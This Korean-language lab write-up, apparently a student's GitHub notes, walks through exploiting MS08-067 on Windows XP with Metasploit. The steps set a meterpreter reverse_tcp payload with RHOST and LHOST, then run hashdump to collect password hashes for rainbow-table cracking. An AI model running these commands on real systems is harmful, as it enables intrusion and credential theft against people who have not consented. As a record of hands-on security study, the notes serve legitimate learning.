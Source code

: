 # Window Xp에서 Pass the hash 공격

## 네트워크 동작확인 1
처음으로 우리가 할일은 Kali와 Window Xp가 연결되어있는지 확인하는 것이다.
이는 아래의 사진과 같이 연결 확인이 가능하다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B8.png)

## 네트워크 동작확인 2
원격접속에 필요한 포트들이 열렸는지 확인하기 위해 다음과 같은 방법을 통해 확인한다.

**nmap (WindowXp)

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/%EB%84%A4%ED%8A%B8%EC%9B%8C%ED%81%AC%20%EC%97%B0%EA%B2%B0%20%ED%99%95%EC%9D%B82.png)

우리는 위 사진을 통해 원격접속에 필요한 포트들이 모두 열려있음을 알 수 있다.

## NMAP?
NMAP은 port Scanning 툴로써 Host나 Network를 Scanning할 때 아주 유용한 시스템 보안툴인과 동시에, 해커에게 강력한 해킹툴로서 사용할 수 있는 도구이다.
NMAP은 기존의 Port ScanningTool에 비해 다양한 옵션과 방화벽 안쪽의 네트워크도 스캔할 수 있는 강력한 기능이 있다.
</br>

## Window XP에서 Password 수집하기

**msfconsole 을 Kali의 명령창에 입력한다.

이후 우리는 Window XP의 취약점인 MS08-067을 이전의 실습을 통해 알고 있다.
이를 통해 우리는 password를 얻어낼 것이다.

**search ms08-067
**use exploit/windows/smb/ms08_067_netapi

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%201.png)

**set payload windows/meterpreter/reverse_tcp_allports
**show options

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%202.png)

**set RHOST (WindowXp의 IP)
**set LHOST (Kali의 IP)

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%203.png)

**run

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%204.png)

**sysinfo
**hashdump\

![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Pass%20the%20Hash/Window%20Xp/Window%20Xp%EC%97%90%EC%84%9C%20Password%EC%A0%95%EB%B3%B4%20%EC%88%98%EC%A7%91%20%EC%99%84%EB%A3%8C.png)

### 이를 통한 공격방법은?
우리는 MS08-067을 통해  windowXp의 Password Hash를 구할 수  있게 되었다.
그렇다면 이것이 과연 무슨 역활을 하는가에 대해 생각하면 다음과 같이 이를 활용해서 공격을 할 수 있다.
그것은 바로 raindow Hashtable attack을 통해 취약점을 통해 구한 hash의 값에 맞는 원래의 Pw를 찾아내는 공격을 통해 사용자의 Password를 알아 낼 수 있다.
